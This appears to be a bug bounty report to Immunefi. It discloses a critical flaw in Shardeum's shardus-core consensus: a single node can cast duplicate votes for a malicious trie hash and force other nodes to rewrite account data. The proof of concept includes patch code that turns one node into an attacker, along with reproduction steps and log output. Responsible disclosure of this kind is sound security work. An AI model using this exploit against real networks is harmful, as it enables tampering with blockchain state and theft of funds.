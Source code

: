 
# Inflating the votes of the hash for a malicious trie data structure to bypass the consensus system and modify account data

Submitted on Sat Aug 03 2024 02:42:07 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33972

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Direct loss of funds

## Description
## Brief/Intro

In Shardeum, no single node stores the entire state of the blockchain. A dynamic sharding system is used and the address space is divided into multiple shards, each managed by a different set of nodes.

The Shardeum network utilizes a consensus system where nodes vote on the hash of the trie data structure managed by their shard, once they agree on the data it becomes part of the next cycle.

In this report, we demonstrate how a single node in a shard can fool the consensus system, allowing it to create a malicious trie data structure and inflate its hash's votes by any amount until it wins the consensus.

As a result, all nodes will try to "repair" their data based on the hash that won the consensus. In other words, a single node can modify the state of the blockchain assigned to his shard.

> *Bypassing the consensus system to modify the state of the blockchain creates a loss of funds.*

## Vulnerability Details

After each tree computation, the correct radix and hashes are sent out to other nodes using the function `broadcastSyncHashes(...)`.

> Function broadcastSyncHashes(...): https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3085

The internal gossip handler `sync_trie_hashes` is responsible for syncing those trie hashes between nodes in the network, adding votes to the **hashTrieSyncConsensus** with every gossip received.

> Function sync_trie_hashes(...): https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L696-L767

When adding a vote for a hash, the public key of the node that is voting is saved, but unfortunately, it is not used to prevent the same node from voting multiple times.

An attacker node can distribute the hash of a malicious data structure and vote an unlimited amount of times within seconds to always win the consensus.

After a few seconds, the `testAndPatchAccounts` function is called to test if the node is in sync on all accounts and to repair data if it is not. This repair process looks for a tree data structure that matches the hash that won the consensus, in this case, a hash for a malicious tree data structure.

## Impact Details

Bypassing the consensus system to modify the state of the blockchain creates a loss of funds.

        
## Proof of concept
## Proof of Concept

Download locally Shardus Core repo and Shardeum's repo locally.

Apply the following patch to the Shardeum repo:

```
git apply debug-10-nodes.patch
```

Now point Shardeum to use the local copy of Shardu's Core as instructed in the README.md file of Shardeum's codebase.

In your local copy of Shardeum, open the file `src/state-manager/AccountPatcher.ts` and replace the following snippet of code from L3227 to L3228:
```
        const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
        promises.push(promise)
```
> Snippet of code from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3227-L3228

With this one:
```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via internal`);
          let evilMessage = messageEntry.message;
          for (let i = 0; i < evilMessage.nodeHashes.length; i++) {
            evilMessage.nodeHashes[i].hash = `helloWorld${i}`;
          }
          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', evilMessage)
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tell([messageEntry.node], 'sync_trie_hashes', messageEntry.message)
          promises.push(promise)
        }
```

Then replace the following snippet of code from L3216 to L3223:
```
        const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
          [messageEntry.node],
          InternalRouteEnum.binary_sync_trie_hashes,
          syncTrieHashesRequest,
          serializeSyncTrieHashesReq,
          {}
        )
        promises.push(promise)
```
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/state-manager/AccountPatcher.ts#L3216-L3223

With this:
```
        // HACK: INFOSEC
        // if we are 9002 (evil node) send a malicious hash and vote for it 12 times in a row
        // if we are not 9002 proceed as usual
        if (Self.getThisNodeInfo().externalPort == 9002) {
          console.log(`INFOSEC: Dup votes sent via binary`);
          for (let i = 0; i < syncTrieHashesRequest.nodeHashes.length; i++) {
            syncTrieHashesRequest.nodeHashes[i].hash = `helloWorld${i}`;
          }

          for (let a = 0; a < 12; a++) {
            const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
              [messageEntry.node],
              InternalRouteEnum.binary_sync_trie_hashes,
              syncTrieHashesRequest,
              serializeSyncTrieHashesReq,
              {}
            )
            promises.push(promise)
          }
        } else {
          const promise = this.p2p.tellBinary<SyncTrieHashesRequest>(
            [messageEntry.node],
            InternalRouteEnum.binary_sync_trie_hashes,
            syncTrieHashesRequest,
            serializeSyncTrieHashesReq,
            {}
          )
          promises.push(promise)
        }
```

With these changes, we have modified the node to do the following:

- If the current node executing the code is **NOT** running in port 9002, then is going to be a legit/good node and it will run as usual. No modifications are made to these nodes, they will gossip the correct hashes.

- If the current node executing the code **IS** running in port 9002, then is going to be a malicious node, that will gossip a malicious hash and inflate its votes in the consensus system until it wins v.s. the correct/legit hash, and forces the network to "repair" their data.

Now build both codebases, and start the network with 10 nodes using shardus's CLI (`shardus start 10`)

Wait until cycle 16 before proceeding with the next step. All nodes should be active and synced by cycle 16.

Finally, go to the log file at `./instances/shardus-instance-9004/logs/fatal.log` and it will be filled with errors abut not being in sync and having bad accounts.
```
[2024-08-02T20:24:23.050] [FATAL] fatal - isInSync = false bad accounts cycle:14 bad:0 received:0 failedH: 0 filtered:{"accepted":0,"sameTS":0,"sameTSFix":0,"tooOld":0,"tsFix2":0,"tsFix3":0} stats:{"badSyncRadix":16,"checkedLevel":2,"fixLastSeen":0,"fix_butHashMatch":0,"getAccountHashStats":{"actualRadixRequests":0,"empty":0,"exceptions":0,"matched":0,"nullResults":0,"numRequests":0,"radixToReq":0,"responses":0,"visisted":0},"leafResponses":0,"leafsChecked":0,"needsVotes":0,"ok_noTrieAcc":0,"ok_trieHashBad":0,"skippedSyncRadix":0,"subHashesTested":0,"testedSyncRadix":16,"trailColdLevel":2} getAccountStats: {"multiRequests":0,"requested":0,"skipping":0} details: []
```
> Change 9004 in the filepath with another port to check other nodes complain as well.

A huge dump asking to repair all data accounts can be found in `./instances/shardus-instance-9004/logs/main.log` - is too big to paste here.

# Conclusion

In this POC we prove how to bypass the consensus system and fool the network into believing they have the wrong data state and must repair the accounts data with "the correct" trie data structure.